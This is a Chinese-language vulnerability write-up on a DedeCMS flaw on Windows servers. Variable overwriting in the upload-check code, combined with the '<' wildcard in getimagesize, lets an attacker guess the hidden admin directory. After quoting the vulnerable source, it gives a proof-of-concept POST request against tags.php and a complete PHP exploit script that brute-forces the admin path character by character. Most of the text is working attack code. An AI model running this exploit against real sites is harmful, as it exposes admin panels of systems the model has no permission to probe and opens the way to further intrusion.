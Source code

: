 ### 利用限制

- 仅针对windows系统

### 进入正题

首先看核心文件common.inc.php 大概148行左右

```
if($_FILES)
{
    require_once(DEDEINC.'/uploadsafe.inc.php');
}
```

uploadsafe.inc.php

```
if( preg_match('#^(cfg_|GLOBALS)#', $_key) )
{
    exit('Request var not allow for uploadsafe!');
}
$$_key = $_FILES[$_key]['tmp_name']; //获取temp_name 
${$_key.'_name'} = $_FILES[$_key]['name'];
${$_key.'_type'} = $_FILES[$_key]['type'] = preg_replace('#[^0-9a-z\./]#i', '', $_FILES[$_key]['type']);
${$_key.'_size'} = $_FILES[$_key]['size'] = preg_replace('#[^0-9]#','',$_FILES[$_key]['size']);
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
{
    if(!defined('DEDEADMIN'))
    {
        exit('Not Admin Upload filetype not allow !');
    }
}
if(empty(${$_key.'_size'}))
{
    ${$_key.'_size'} = @filesize($$_key);
}
$imtypes = array
(
    "image/pjpeg", "image/jpeg", "image/gif", "image/png", 
    "image/xpng", "image/wbmp", "image/bmp"
);
if(in_array(strtolower(trim(${$_key.'_type'})), $imtypes))
{
    $image_dd = @getimagesize($$_key); 
    //问题就在这里，获取文件的size，获取不到说明不是图片或者图片不存在，不存就exit upload.... ,利用这个逻辑猜目录的前提是目录内有图片格式的文件。
    if (!is_array($image_dd))
    {
        exit('Upload filetype not allow !');
    }
}
......
```

注意`$$_key`这一句，变量`$key`取自于`$_FILE`，由于`$_FILE`可控自然`$key`也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现`cfg_|GLOBALS`。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用`<<`通配符猜解后台目录，所以只要`$$_key`参数可控就可以达到目的。

修正一处笔误。
 ~~但在这之前有个`if(!defined('DEDEADMIN'))`的判断,这个很好绕过设置`tmp_name为0或者1.jpg含.` 就可以绕过。~~

```
if(!empty(${$_key.'_name'}) && (preg_match("#\.(".$cfg_not_allowall.")$#i",${$_key.'_name'}) || !preg_match("#\.#", ${$_key.'_name'})) )
    {   
        if(!defined('DEDEADMIN'))
        {
            exit('Not Admin Upload filetype not allow !');
        }
    }
    这个判断只需要设置${$_key.'_name'} 的值为0或者1.jpg 含点“ . ” 既可以绕过 如：_FILES[b4dboy][name]=1.jpg
```

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype not allow !

### 举个例子

文字不好表达，便于理解。

```
<?php
// ./dedecms/favicon.ico
if(@getimagesize($_GET['poc'])){
    echo 1;
}else {
    echo 0;
}
?>
get:
http://localhost/test.php?poc=./d</favicon.ico
返回：1

http://localhost/test.php?poc=./a</favicon.ico
返回：0

http://localhost/test.php?poc=./de</favicon.ico
返回：1

http://localhost/test.php?poc=./ded</favicon.ico
返回：1

........
```

### 构造poc

```
http://localhost/dedecms/tags.php

post:

dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif
```

Common.inc.php 是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候： 图1

[![img](DedeCms后台地址泄露漏洞/20180123000649-4080b60c-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000649-4080b60c-ff8e-1.png)
 当目录不存在点时候： 图2
 [![img](DedeCms后台地址泄露漏洞/20180123000533-133714d4-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000533-133714d4-ff8e-1.png)

### EXP：

```
<?php
$domain='http://localhost/dedecms/';
$url=$domain.'/index.php';
function post($url, $data, $cookie = '') {
    $options = array(
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_HEADER => true,
        CURLOPT_POST => true,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_SSL_VERIFYHOST => false,
        CURLOPT_COOKIE => $cookie,
        CURLOPT_POSTFIELDS => $data,
    );
    $ch = curl_init($url);
    curl_setopt_array($ch, $options);
    $result = curl_exec($ch);
    curl_close($ch);
    return $result;
}
$testlen=25;
$str=range('a','z');
$number=range(0,9,1);
$dic = array_merge($str, $number);
$n=true;
$nn=true;
$path='';
while($n){
    foreach($dic as $v){
        foreach($dic as $vv){
            #echo $v.$vv .'----';
            $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$v$vv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
            $result=post($url,$post_data);
            if(strpos($result,'Upload filetype not allow !') === false){
                $path=$v.$vv;$n=false;break 2;
            }
        }
    }
}
while($nn){
    foreach($dic as $vvv){
        $post_data="dopost=save&_FILES[b4dboy][tmp_name]=./$path$vvv</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif";
        $result=post($url,$post_data);
        if(strpos($result,'Upload filetype not allow !') === false){
            $path.=$vvv;
            echo $path . PHP_EOL;
            $giturl=$domain.'/'.$path.'/images/admin_top_logo.gif';
            if(@file_get_contents($giturl)){
                echo $domain.'/'.$path.'/';
                $nn=false;break 2;
            }
        }
    }
}
?>
```

[![img](DedeCms后台地址泄露漏洞/20180123000746-62cc9f96-ff8e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180123000746-62cc9f96-ff8e-1.png)

### 感谢

感谢给我提供这个思路的朋友

##### 参考文章